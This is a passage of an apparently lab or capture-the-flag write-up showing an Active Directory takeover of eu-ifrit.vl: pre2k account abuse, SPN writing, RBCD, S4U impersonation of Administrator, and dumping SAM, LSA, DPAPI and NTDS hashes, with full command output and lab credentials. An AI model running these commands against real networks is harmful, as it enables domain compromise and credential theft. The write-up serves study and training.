LDAP        172.16.41.14    389    DC03             [*] Windows Server 2022 Build 20348 (name:DC03) (domain:eu-ifrit.vl) (signing:None) (channel binding:No TLS cert)
LDAP        172.16.41.14    389    DC03             [+] eu-ifrit.vl\Jack.Smith:DXt9boDb8W_doj 
MAQ         172.16.41.14    389    DC03             [*] Getting the MachineAccountQuota
MAQ         172.16.41.14    389    DC03             MachineAccountQuota: 0

```

But I also know there are some dummy computer objects I can controll via VDI02 and even if right now do not posses any SPN I can also control that as well.



So first step is to change the password associated to one of the many RAS computers since they are part of the pre2k groups the password equals to the SAMACCOUNTNAME in lowercase without the ending dollar sign.

```bash
└─$ netexec ldap 172.16.41.14 -u Jack.Smith -p DXt9boDb8W_doj -M pre2k 
LDAP        172.16.41.14    389    DC03             [*] Windows Server 2022 Build 20348 (name:DC03) (domain:eu-ifrit.vl) (signing:None) (channel binding:No TLS cert)
LDAP        172.16.41.14    389    DC03             [+] eu-ifrit.vl\Jack.Smith:DXt9boDb8W_doj 
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: SQL01$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: DEV02$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: DEV01$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50014$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50011$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50021$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: RAS50005$
PRE2K       172.16.41.14    389    DC03             Pre-created computer account: BACKUP01$
PRE2K       172.16.41.14    389    DC03             [+] Found 8 pre-created computer accounts. Saved to /home/millycash/.nxc/modules/pre2k/eu-ifrit.vl/precreated_computers.txt
PRE2K       172.16.41.14    389    DC03             [-] Failed to get TGT for sql01@eu-ifrit.vl: Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
PRE2K       172.16.41.14    389    DC03             [-] Failed to get TGT for dev02@eu-ifrit.vl: Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
PRE2K       172.16.41.14    389    DC03             [-] Failed to get TGT for dev01@eu-ifrit.vl: Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
PRE2K       172.16.41.14    389    DC03             [+] Successfully obtained TGT for ras50014@eu-ifrit.vl
PRE2K       172.16.41.14    389    DC03             [+] Successfully obtained TGT for ras50011@eu-ifrit.vl
PRE2K       172.16.41.14    389    DC03             [+] Successfully obtained TGT for ras50021@eu-ifrit.vl
PRE2K       172.16.41.14    389    DC03             [+] Successfully obtained TGT for ras50005@eu-ifrit.vl
PRE2K       172.16.41.14    389    DC03             [-] Failed to get TGT for backup01@eu-ifrit.vl: Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
PRE2K       172.16.41.14    389    DC03             [+] Successfully obtained TGT for 4 pre-created computer accounts. Saved to /home/millycash/.nxc/modules/pre2k/ccache

```

And now I can use whatever of the domain computer object to write a fake SPN to one of the RAS computers, this is extremely important as the RBCD requires a SPN to work.

```bash
└─$ powerview --dc-ip 172.16.41.14 eu-ifrit.vl/'VDI02$'@172.16.41.14 --hashes :ef717a62d367ae6f2fc19dc06230abb3
Logging directory is set to /home/millycash/.powerview/logs/eu-ifrit
╭─LDAP─[DC03.eu-ifrit.vl]─[EU-IFRIT\VDI02$]-[NS:172.16.41.14]
╰─ ❯ Set-ADObject -Identity 'RAS50011$' -Se
-SearchBase   -Server       -Set          
╭─LDAP─[DC03.eu-ifrit.vl]─[EU-IFRIT\VDI02$]-[NS:172.16.41.14]
╰─ ❯ Set-ADObject -Identity 'RAS50011$' -Set 'servicePrincipalname=cifs/RAS50011.eu-ifrit.vl'
[2026-04-06 10:20:22] [Set-DomainObject] Success! modified attribute servicePrincipalname for CN=RAS50011,OU=ras,DC=eu-ifrit,DC=vl
╭─LDAP─[DC03.eu-ifrit.vl]─[EU-IFRIT\VDI02$]-[NS:172.16.41.14]
╰─ ❯ Get-DomainComputer -Identity RAS50011 -Properties * 
objectClass                : top
                             person
                             organizationalPerson
                             user
                             computer
cn                         : RAS50011
distinguishedName          : CN=RAS50011,OU=ras,DC=eu-ifrit,DC=vl
instanceType               : 4
whenCreated                : 14/07/2024 11:19:12 (1 year, 8 months ago)
whenChanged                : 06/04/2026 08:20:22 (today)
uSNCreated                 : 28743
uSNChanged                 : 102649
name                       : RAS50011
objectGUID                 : {b7933851-1acd-443a-837b-4cc5edecf604}
userAccountControl         : PASSWD_NOTREQD
                             WORKSTATION_TRUST_ACCOUNT
badPwdCount                : 0
codePage                   : 0
countryCode                : 0
badPasswordTime            : 01/01/1601 00:00:00 (425 years, 3 months ago)
lastLogoff                 : 1601-01-01 00:00:00+00:00
lastLogon                  : 06/04/2026 08:11:57 (today)
localPolicyFlags           : 0
pwdLastSet                 : 14/07/2024 11:19:12 (1 year, 8 months ago)
primaryGroupID             : 515
objectSid                  : S-1-5-21-815464091-3988217837-1862656938-1326
accountExpires             : 9999-12-31 23:59:59.999999+00:00
logonCount                 : 1
sAMAccountName             : RAS50011$
sAMAccountType             : SAM_MACHINE_ACCOUNT
servicePrincipalName       : cifs/RAS50011.eu-ifrit.vl
objectCategory             : CN=Computer,CN=Schema,CN=Configuration,DC=eu-ifrit,DC=vl
isCriticalSystemObject     : False
dSCorePropagationData      : 07/14/2024 11:37:42 AM
                             07/14/2024 11:21:26 AM
                             01/01/1601 00:00:00 AM
lastLogonTimestamp         : 06/04/2026 08:11:57 (today)
vulnerabilities            : [VULN-003] User account with password not required (HIGH)

```

Next, I should be able to write the RBCD on the *DC03* on behalf of the *RAS50011* computer object leveraging on the credentials of the VDI machine:

```bash
└─$ impacket-rbcd -delegate-from 'RAS50011$' -delegate-to 'DC03$' -action 'write' eu-ifrit.vl/'VDI02$' -hashes :ef717a62d367ae6f2fc19dc06230abb3
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] RAS50011$ can now impersonate users on DC03$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     RAS50011$    (S-1-5-21-815464091-3988217837-1862656938-1326)

```

And now by leveraging over the kerberos ticket obtained some steps before from the pre2k abuse I can request a service ticket that should impersonate me on the DC03.

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Ifrit]
└─$ impacket-getST -spn cifs/dc03.eu-ifrit.vl -impersonate Administrator -dc-ip 172.16.41.14 eu-ifrit.vl/'RAS50011$' -k -no-pass
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc03.eu-ifrit.vl@EU-IFRIT.VL.ccache

```

And now I can dump all the secrets from LSASS.exe process and from DPAPI certificates:

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Ifrit]
└─$ netexec smb dc03.eu-ifrit.vl --use-kcache --sam --lsa --dpapi
SMB         dc03.eu-ifrit.vl 445    DC03             [*] Windows Server 2022 Build 20348 x64 (name:DC03) (domain:eu-ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc03.eu-ifrit.vl 445    DC03             [+] eu-ifrit.vl\Administrator from ccache (Pwn3d!)
SMB         dc03.eu-ifrit.vl 445    DC03             [*] Dumping SAM hashes
SMB         dc03.eu-ifrit.vl 445    DC03             Administrator:500:aad3b435b51404eeaad3b435b51404ee:d05ff1e30127c8d43e6b1ab5d22454c7:::
SMB         dc03.eu-ifrit.vl 445    DC03             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc03.eu-ifrit.vl 445    DC03             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[10:30:11] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                                                                                                      regsecrets.py:436
SMB         dc03.eu-ifrit.vl 445    DC03             [+] Added 3 SAM hashes to the database
SMB         dc03.eu-ifrit.vl 445    DC03             [*] Dumping LSA secrets
SMB         dc03.eu-ifrit.vl 445    DC03             EU-IFRIT\DC03$:plain_password_hex:326a421bf91764a3ce658d8b53f4f629204ec767078c8d7836b8cbfb0ad013fcf3c5a935067ef0cc97c9553a5a3219a2f0c9843c4fcdf48fe6bc51cbdebc1cf06c269173d15d2abdc538b4f93a08289c56d36304fc5ff20780eb694bb936b761b4fead4d5e6807a35506ec24e912be0d3e0b4cf71f0241f73d87ef3f7f527d6cec37020bf94ed6c67c4644ffed50e59a8774d3d244c0e1a1c0767dffe2f8cd62d0101a31716a9c2c1b8c04528506752e95f580191308737b8bf9b32e77de6a1ceddd08a1640468b07c161257fbb61cac99ce82bdef492c65b3ba032b276bd572db5b4baf11fc3850f1ee302a82e97578
SMB         dc03.eu-ifrit.vl 445    DC03             EU-IFRIT\DC03$:aad3b435b51404eeaad3b435b51404ee:c8c0c598e4e07605f8ab198ac73cc2b3:::
SMB         dc03.eu-ifrit.vl 445    DC03             dpapi_machinekey:0x8c794bc5f119b6a412f2744718f06c9e6301cd01
dpapi_userkey:0x814bb3998293b4154c2faf39196c843657f1cb1f
SMB         dc03.eu-ifrit.vl 445    DC03             [+] Dumped 3 LSA secrets to /home/millycash/.nxc/logs/lsa/DC03_dc03.eu-ifrit.vl_2026-04-06_102946.secrets and /home/millycash/.nxc/logs/lsa/DC03_dc03.eu-ifrit.vl_2026-04-06_102946.cached
SMB         dc03.eu-ifrit.vl 445    DC03             [+] User is Domain Administrator, exporting domain backupkey...
SMB         dc03.eu-ifrit.vl 445    DC03             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         dc03.eu-ifrit.vl 445    DC03             [+] Got 7 decrypted masterkeys. Looting secrets...

```

I will also dump the NTDS.dit database and all it's credential hashes:

```bash
─$ netexec smb dc03.eu-ifrit.vl --use-kcache --ntds             
SMB         dc03.eu-ifrit.vl 445    DC03             [*] Windows Server 2022 Build 20348 x64 (name:DC03) (domain:eu-ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc03.eu-ifrit.vl 445    DC03             [+] eu-ifrit.vl\Administrator from ccache (Pwn3d!)
SMB         dc03.eu-ifrit.vl 445    DC03             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc03.eu-ifrit.vl 445    DC03             Administrator:500:aad3b435b51404eeaad3b435b51404ee:d05ff1e30127c8d43e6b1ab5d22454c7:::
SMB         dc03.eu-ifrit.vl 445    DC03             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc03.eu-ifrit.vl 445    DC03             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:499e8c85c8697c04b3e4a8b10d95c56f:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Lynne.Gibson:1111:aad3b435b51404eeaad3b435b51404ee:4c00f66ef2673da28fdf65073c15022d:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\June.Murphy:1112:aad3b435b51404eeaad3b435b51404ee:a1d9d716e232d5a02523b2132b56858e:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Eileen.Andrews:1113:aad3b435b51404eeaad3b435b51404ee:ec94884c17ed828a630d6fb10dfd7ea5:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Beverley.Connolly:1114:aad3b435b51404eeaad3b435b51404ee:e4ab756c56dc797091869754650b8901:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Janice.Stokes:1115:aad3b435b51404eeaad3b435b51404ee:934e1a626c937d1ff75371a677d87837:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Keith.Jackson:1116:aad3b435b51404eeaad3b435b51404ee:59f8cb52bc11a0724efc381f4cf74089:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Dawn.Clarke:1117:aad3b435b51404eeaad3b435b51404ee:968354a683d80c4e97cccab38a0d7226:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Ian.Connor:1118:aad3b435b51404eeaad3b435b51404ee:3663b3a0183cafd948f9c22ecfc3ef65:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jordan.Moore:1119:aad3b435b51404eeaad3b435b51404ee:0e7cfe9b7b57916efe466b4cc8176c43:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Charles.Sullivan:1120:aad3b435b51404eeaad3b435b51404ee:782fe3a37d9484fcb8b9ffa6bc81df9e:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jake.Kaur:1121:aad3b435b51404eeaad3b435b51404ee:b0dcdcb9c7fc0367f483dd954ef748ad:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Katherine.Williams:1122:aad3b435b51404eeaad3b435b51404ee:3be603e175fb98c909ecf0235bc7d1cb:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Robin.Hargreaves:1123:aad3b435b51404eeaad3b435b51404ee:8edc4321387a9ace54c3183962c6c6f5:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Arthur.Kirk:1124:aad3b435b51404eeaad3b435b51404ee:c716e78a94a1a5f09db29dfe8e6e52c6:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Dominic.Heath:1125:aad3b435b51404eeaad3b435b51404ee:167979e84c467392f2ff385ea7203322:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Joe.Brooks:1126:aad3b435b51404eeaad3b435b51404ee:f19d7fb8405b2903d927f82451bb23fb:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Peter.Nash:1127:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Natalie.Norris:1128:aad3b435b51404eeaad3b435b51404ee:81307209d47037dc075ff8540b577423:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Mary.Hunter:1129:aad3b435b51404eeaad3b435b51404ee:1dddada43940498e4ac3951feb6d8368:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Patricia.Johnson:1130:aad3b435b51404eeaad3b435b51404ee:25ac8bf7c3c3431e99615455d39a7e10:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jemma.Bartlett:1131:aad3b435b51404eeaad3b435b51404ee:f5ac261330643a6866b1457e8a22c5bb:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Sheila.Sharp:1132:aad3b435b51404eeaad3b435b51404ee:c369fe872eedb4559a11ce08fc9c372d:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jacob.O'Donnell:1133:aad3b435b51404eeaad3b435b51404ee:fa589edc0641c6c20f729eb5f446d577:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Nicola.Winter:1134:aad3b435b51404eeaad3b435b51404ee:fb070768a6c1ec5bd38be914c8215a33:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Tony.Graham:1135:aad3b435b51404eeaad3b435b51404ee:028620443db3135412dc5fb1af5af0cc:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Glen.Marshall:1136:aad3b435b51404eeaad3b435b51404ee:85fd5fc1321e0544fc7ff2d9ccabfb8e:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Caroline.Wilson:1137:aad3b435b51404eeaad3b435b51404ee:f83be6d8e1ecb6b687724f8b41b7ed18:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Georgina.Burns:1138:aad3b435b51404eeaad3b435b51404ee:6b4a3ce89c68227a45302cc251bb2a7a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Caroline.Thornton:1139:aad3b435b51404eeaad3b435b51404ee:c0bb6e026daa2d75dc0f73f2af9d4f0f:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Elliott.Kay:1140:aad3b435b51404eeaad3b435b51404ee:53490d9048cce42029a51cb155cac256:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Nigel.Sutton:1141:aad3b435b51404eeaad3b435b51404ee:ac314130b1364fdba26bd02848c23b2a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jade.Perry:1142:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Molly.Wilson:1143:aad3b435b51404eeaad3b435b51404ee:8b9b472af2f84ea67742d960b0c8d0e7:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Elliott.Nicholls:1144:aad3b435b51404eeaad3b435b51404ee:048177489d3f510bd93aa5052ce8a8e9:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Heather.Little:1145:aad3b435b51404eeaad3b435b51404ee:32c2a0bb7dfdbe410c87d2869580eefc:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Benjamin.Walker:1146:aad3b435b51404eeaad3b435b51404ee:652f2bc0af3032149e77a621e1c28e90:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jamie.Smith:1147:aad3b435b51404eeaad3b435b51404ee:0c43890ce3b209669c064cb96b0c8b4a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Lucy.Morgan:1148:aad3b435b51404eeaad3b435b51404ee:a35e9ce83d0575ef40941890bd9b7fe2:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Bruce.Hewitt:1149:aad3b435b51404eeaad3b435b51404ee:efb9a484226c0ec231fbf3b597feec14:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Bernard.Davey:1150:aad3b435b51404eeaad3b435b51404ee:a6b53f4780c51f441cf6cfbeb0159807:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Mary.Smith:1151:aad3b435b51404eeaad3b435b51404ee:6221d773871720d4cd492237138102be:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Barry.Foster:1152:aad3b435b51404eeaad3b435b51404ee:eb11f41f997cebede2812083d5cd99b8:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Brett.Roberts:1153:aad3b435b51404eeaad3b435b51404ee:95bba9d23786a613f3089f514103203a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Connor.Cook:1154:aad3b435b51404eeaad3b435b51404ee:63a7c1db8e67e04b5a0ceea6f11269e9:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Anthony.Heath:1155:aad3b435b51404eeaad3b435b51404ee:c918fb84ad2a2078d9c142844914378e:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Michelle.Young:1156:aad3b435b51404eeaad3b435b51404ee:bfc54a0345c48e95bbd76df9c2aa123a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Danny.Roberts:1157:aad3b435b51404eeaad3b435b51404ee:a0969b369947f2f77d0d06c47fbda067:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Lynne.Hayward:1158:aad3b435b51404eeaad3b435b51404ee:b6b6b00f256451a177c3be959979256b:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Steven.Bowen:1159:aad3b435b51404eeaad3b435b51404ee:ad273b7c57e58d16215d0ad093cca664:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Martin.Simpson:1160:aad3b435b51404eeaad3b435b51404ee:0c3179a8f892acc1b45eb4c1fde66c8c:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Gail.Cox:1161:aad3b435b51404eeaad3b435b51404ee:5fed12475f17311d84b6b7db9f78acd4:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Joe.Nicholls:1162:aad3b435b51404eeaad3b435b51404ee:ea55ff9053edd2419aeb543ac2c26eb0:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Barry.Cox:1163:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Francesca.Ahmed:1164:aad3b435b51404eeaad3b435b51404ee:1a8a8794fa3957310b5372739d82ef65:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Megan.Howard:1165:aad3b435b51404eeaad3b435b51404ee:c623b06210807e97ebc6504b2d96f2b4:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Martin.Marsden:1166:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Grace.Dunn:1167:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Derek.Giles:1168:aad3b435b51404eeaad3b435b51404ee:24b547b196e3e42049b544fe83e3deab:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Malcolm.Palmer:1169:aad3b435b51404eeaad3b435b51404ee:c7de7a41492ab27a886cd768c953e3cc:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Hollie.Hunt:1170:aad3b435b51404eeaad3b435b51404ee:59559b8e1f157816b67f4dd374aa1f79:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Hollie.Harrison:1171:aad3b435b51404eeaad3b435b51404ee:3e9042ed32c837e359eb4c2a69e4bcaa:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Cheryl.Evans:1172:aad3b435b51404eeaad3b435b51404ee:d19c2185cfb9d54b1806f540f92aa454:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Stacey.Pratt:1173:aad3b435b51404eeaad3b435b51404ee:278e01dbddb6e1ef67fdd6725b10bd4e:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Toby.Knight:1174:aad3b435b51404eeaad3b435b51404ee:746702ce5c228d2375723d940be95d3f:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jonathan.Richardson:1175:aad3b435b51404eeaad3b435b51404ee:16c16165f953116713c3b76ee75886f1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Claire.Lewis:1176:aad3b435b51404eeaad3b435b51404ee:e8170bc121a7aed6a05d658fff35a781:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Elliott.Carr:1177:aad3b435b51404eeaad3b435b51404ee:d74be860fa26f52986d914b0d77d39d2:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jade.Smith:1178:aad3b435b51404eeaad3b435b51404ee:1641adb085a22f6a91df8958a8190c7e:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Marc.Mitchell:1179:aad3b435b51404eeaad3b435b51404ee:57d0d7e2575f18c7e3fe90561ff44c01:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\James.Cook:1180:aad3b435b51404eeaad3b435b51404ee:b8c38f438c0468573c0d074464684b27:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Maria.Parkinson:1181:aad3b435b51404eeaad3b435b51404ee:59c247ab830b73393f64d82ff601401e:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Aaron.Jones:1182:aad3b435b51404eeaad3b435b51404ee:d2dd475ba4c37db26d11fad96e0ff89f:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Jasmine.Smith:1183:aad3b435b51404eeaad3b435b51404ee:f7f91688d0a46a28eeeb470efd6f162d:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Ashley.O'Neill:1184:aad3b435b51404eeaad3b435b51404ee:b4146a94dcd15c7834333abbd20422c2:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Judith.Hawkins:1185:aad3b435b51404eeaad3b435b51404ee:38ebc1fc2c7392d5b611deb856c48463:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Iain.Graham:1186:aad3b435b51404eeaad3b435b51404ee:83d6b6f635e37c48c9720e8aa7db8979:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Martin.Dawson:1187:aad3b435b51404eeaad3b435b51404ee:145a74511ef826f13c68d09d5d82c525:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Robin.Scott:1188:aad3b435b51404eeaad3b435b51404ee:b8b277b6304682bab1d4a238c459342d:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Denis.Davies:1189:aad3b435b51404eeaad3b435b51404ee:0252451b099a3b68cdc26dac7cf0fa53:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Alan.Fox:1190:aad3b435b51404eeaad3b435b51404ee:f128fb5bbd553f83d143f01655b7bbbf:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Russell.Hurst:1191:aad3b435b51404eeaad3b435b51404ee:7fbf47abf6a6382ea4f51125c99e31ef:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Marian.Bell:1192:aad3b435b51404eeaad3b435b51404ee:761af4a020c37a36e678a2a3f1cb559a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Michelle.Butler:1193:aad3b435b51404eeaad3b435b51404ee:6a873026c5b3d7b21ab8fabb93e1b440:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Martin.Kirk:1194:aad3b435b51404eeaad3b435b51404ee:04e84914a65c5d53fb1f3b12a0bd94b5:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Josephine.Walker:1195:aad3b435b51404eeaad3b435b51404ee:fb817122ab752d08d96359681f633334:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\William.McLean:1196:aad3b435b51404eeaad3b435b51404ee:586f930270f9946e16884dc3ec9262e8:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Chloe.Scott:1197:aad3b435b51404eeaad3b435b51404ee:3fb2485c87715f2c6635a66af66511da:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Caroline.Barker:1198:aad3b435b51404eeaad3b435b51404ee:160ade2e241c8b14d56bb54efe58cda8:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Maurice.Davies:1199:aad3b435b51404eeaad3b435b51404ee:d91e63655c7f60586fd80ab09e1e4988:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Caroline.Hunter:1200:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Gareth.Hussain:1201:aad3b435b51404eeaad3b435b51404ee:eaebba071e533ace24f0ca0c86357574:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Gillian.Roberts:1202:aad3b435b51404eeaad3b435b51404ee:25b6881d0b93a571ad745ae5c7bcbb75:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Keith.Smith:1203:aad3b435b51404eeaad3b435b51404ee:3755edaf51257afd982955d138944a52:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Bernard.Walters:1204:aad3b435b51404eeaad3b435b51404ee:7efd117034fcdf10a1676d4d7dd7da2a:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Sian.Kemp:1205:aad3b435b51404eeaad3b435b51404ee:fa1c3027f839eb3acb5b5f82c6e9f1db:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Julie.Rees:1206:aad3b435b51404eeaad3b435b51404ee:b6d1f9836354e05a8e3fb37834b9a2ed:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Leigh.Watson:1207:aad3b435b51404eeaad3b435b51404ee:f271a3e0152b79e128bb40d661f4cd57:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Linda.Lee:1208:aad3b435b51404eeaad3b435b51404ee:5468d1e5892e73a4fbbc164454712055:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Frederick.Jackson:1209:aad3b435b51404eeaad3b435b51404ee:6e1914978954057c94526f66979b2593:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Michelle.Jordan:1210:aad3b435b51404eeaad3b435b51404ee:ed4f286787a56ca7c3201ebec81cd8c1:::
SMB         dc03.eu-ifrit.vl 445    DC03             eu-ifrit.vl\Kathleen.Taylor:1211:aad3b435b51404eeaad3b435b51404ee:322f974cc075a5500b15f2f58a1b20ce:::
